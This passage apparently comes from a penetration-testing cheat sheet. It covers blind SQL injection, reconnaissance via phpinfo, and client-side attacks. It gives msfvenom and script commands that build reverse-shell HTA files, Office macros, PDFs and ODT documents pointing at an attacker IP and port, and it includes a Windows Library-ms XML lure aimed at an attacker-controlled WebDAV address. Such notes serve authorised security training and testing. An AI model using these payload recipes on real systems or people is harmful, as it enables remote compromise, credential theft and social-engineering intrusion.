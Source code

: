 ```shell
# for more indepth: [Manual Exploit Blind SQLi](https://medium.com/@opabravo/manually-exploit-blind-sql-injection-with-ffuf-92881a199345)


# phpinfo.php
# Loaded environment variables to find leaked API keys
# version of exploit finding
# DOCUMENT_ROOT & include_path for LFI
```

## 🧑 Client Side Attack
> [evil_macro.py](https://github.com/rodolfomarianocy/Evil-Macro/)
> [malicious-pdf.py](https://github.com/jonaslejon/malicious-pdf)
> [MMG-LO](https://github.com/0bfxgh0st/MMG-LO)

```shell
# create a malicious HTA with msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f hta-psh -o file.hta

# generate a malicious macro for a reverse shell in powershell using base64 for .doc
python evil_macro.py -l <ip> -p <port> -o macro.txt

# generate a malicious PDF file
python3 malicious-pdf.py burp-collaborator-url

# generate a malicious odt file
python mmg-odt.py windows <ip> <port>
```

### Microsoft Windows Library File
[Library File Schema](https://learn.microsoft.com/en-us/windows/win32/shell/library-schema-entry)
Filename: config.Library-ms
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.237</url> <!-- webdav ip -->
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
